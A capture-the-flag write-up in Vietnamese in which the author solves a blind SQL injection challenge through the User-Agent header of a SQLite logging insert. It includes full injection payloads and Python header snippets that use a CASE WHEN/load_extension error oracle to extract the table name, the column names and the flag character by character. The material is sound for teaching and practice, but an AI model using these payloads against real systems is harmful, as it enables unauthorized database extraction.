







Link POC :

- Em test mãi trên burp mà kết quả lúc hiện Logged lúc không mà cú pháp em chắc chắn đúng rùi nên em chuyển qua viết POC đơn giản với python ạ

Đề bài đọc kĩ thì em thấy có một đoạn INSERT dữ liệu cho table logger như sau:
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('{ip_address}', '{user_agent}', 
                  '{referer}', '{url}', '{cookie}', '{created_at}')

Có vẻ như máy chủ sẽ lấy giá trị ip address,user_agent,referer,url,cookie,created_at của mình để insert log vào bảng này và nếu thành công sẽ trả ra Logged còn nếu sai sẽ Trả ra Error
+ Đầu tiên em nhận thấy các giá trị như user_agent,referer,cookie là dễ thay đổi nhất nên em sẽ chọn điểm inject đó là user_agent vì đoạn này có vẻ như ít check nhất em nghĩ là referer và cookie cũng được nhưng mà em chưa thử ạ:3

+ Đầu tiên em lợi dụng việc SQLite có cú pháp chèn nhiều bản ghi và dùng payload

                                        a',null,null,null,null), (null,'aaa
Lúc này câu lệnh sẽ trở thành
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('ip_address', 'a',             
                   null,null,null,null),(null,'aaa','referer', '{url}', '{cookie}', '{created_at}')
Và câu lệnh của em hợp lệ nên em sẽ nhận về Logged

Tiếp sau đó em sử dụng payload 
                                        a',null,null,CASE WHEN 1=1 THEN NULL ELSE load_extension(1) END), (null,'aaa
- Payload này em lấy trên payload all thing theo như em tìm hiểu thì hàm load_extension(1) để raise error khi gặp lỗi ạ
- Em nhận được kết quả

- còn nếu case 1=0 thì em sẽ nhận được Error

sau đó em dùng payload:
              headers = {
             'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(tbl_name,1,{i}) FROM sqlite_master WHERE type='table' AND 
             tbl_name NOT LIKE 'sqlite_%' AND tbl_name != 'logger') = '{payload + char}' THEN NULL ELSE load_extension(1) END), 
              (null,'aaa"
               } 
để xác định tên của Table, em nhận được kết quả bằng cách brute force

tên table là flag ạ
- Ban đầu em dùng payload sai tìm ra được 1 tên cột là CREATE em làm mãi không ra @@
- Sau đó em tìm ra rên payload all thing em có hàm PRAGMA_TABLE_INFO('table')
Sẽ trả ra một cột name là tên cột của table nên em dùng payload:
                                     headers = {
                                     'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(name,1,{i}) FROM 
                                    PRAGMA_TABLE_INFO('flag') LIMIT 2,1) = '{payload + 
                                    char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                                       }

- Ban đầu nếu để payload là LIMIT 0,1 thì em nhận được tên là id

<em lười đổi đoạn tên cột nên vẫn để print table name ạ:v>

- Sau đó em để payload là LIMIT 1,1 thì em nhận được tên cột là secret

Đoạn này em nghĩ đây chắc chắn chứa FLAG rồi nhưng mà em thêm LIMIT 2,1 nữa nhưng không có gì  @@

- Bây giờ thì em bờ rút FLAG với payload:

                     headers = {
                        'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(secret,1,{i}) FROM flag LIMIT 1) = '{payload + 
                           char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                     }

- Đợi gần 1 phút thì em được kết quả:

FLAG : CHH{blInD_sqLi_1N_UPDATE}